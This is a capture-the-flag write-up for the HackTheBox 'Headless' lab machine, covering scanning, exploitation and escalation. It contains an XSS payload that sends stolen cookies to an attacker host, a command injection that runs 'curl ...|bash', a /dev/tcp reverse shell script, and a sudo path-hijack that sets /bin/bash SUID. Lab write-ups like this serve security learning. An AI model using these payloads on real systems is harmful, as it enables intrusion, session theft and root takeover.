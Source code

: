 ```yaml
---
title: "HackTheBox - Headless"
layout: "post"
categories: "Linux"
tags: ["Web", "Hackthebox", "Writeup"]
---
```


![headless](https://i.imgur.com/8gNPMnJ.png)


# Headless
---
- **Direct** [https://app.hackthebox.com/machines/Headless](https://app.hackthebox.com/machines/Headless)
- **OS** Linux
- **Severity** Easy
- **Creator** [dvir1](https://app.hackthebox.com/users/1422414)
- **Release date** 23 Mar 2024
- User blood : **jaxafed** 0H 10M
- System blood : **myDonut** 0H 13M
- **IP** 10.10.11.8

# Enumeration
---
## nmap

```bash
❯ nmap -T4 -p22,5000 -A -O -sC -sV -Pn 10.10.11.8
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 15:02 EDT
Nmap scan report for headless.htb (10.10.11.8)
Host is up (0.028s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sat, 23 Mar 2024 19:03:05 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest:
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/23%Time=65FF2766%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Sat,\x2023\x20Mar\x202024\x2019:03:05\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   27.62 ms 
2   27.66 ms headless.htb (10.10.11.8)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.36 seconds
```


>add headless.htb in /etc/hosts --> `echo 10.10.11.8 headless.htb | sudo tee -a /etc/hosts`


we have port 5000,
http://10.10.11.8:5000/support

found also http://10.10.11.8:5000/dashboard when fuzzing.

## XSS on user agent

pattern recognition, trying to run XSS on user agent will be successful 

```javascript
<img src/onerror="a=new Image;a.src=/**/'http:IP?'+btoa(document.cookie)">
```

this payload is working, we just need to put it in user agent, then start web server and wait for document.cookie

`sudo python3 -m http.server 80`

so you get cookie admin :
`Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`

with this cookie you can connect as admin, go to /dashboard, you can see a simple webapp with a date thing, also guessing/pattern recognition and we got code injection

```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15;curl http://ip/shell.sh|bash
```

shell.sh :
```bash
#!/bin/bash
/bin/bash -c 'exec bash -i &>/dev/tcp/IP/1337 <&1'
```

then just start web server & listener, wait for reverse shell
# root part

we can run "/usr/bin/syscheck" as root without password

```bash
(remote) dvir@headless:/home/dvir$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

when we cat syscheck, we can see initdb.sh is launched :

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

`./initdb.sh 2>/dev/null` --> so wen we run /usr/bin/syscheck as root with sudo, initdb.sh is run in our current folder as root too.

so we just need to create a file named initdb.sh and put malicious payload in, and then when we will run syscheck our malicious payload will be executed

```bash
echo "chmod u+s /bin/bash" > initdb.sh && chmod +x initdb.sh
```

so we can now just run syscheck, then bash -p and we got root.

```bash
sudo /usr/bin/syscheck
/bin/bash -p
```

```bash
(remote) root@headless:/root# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
```

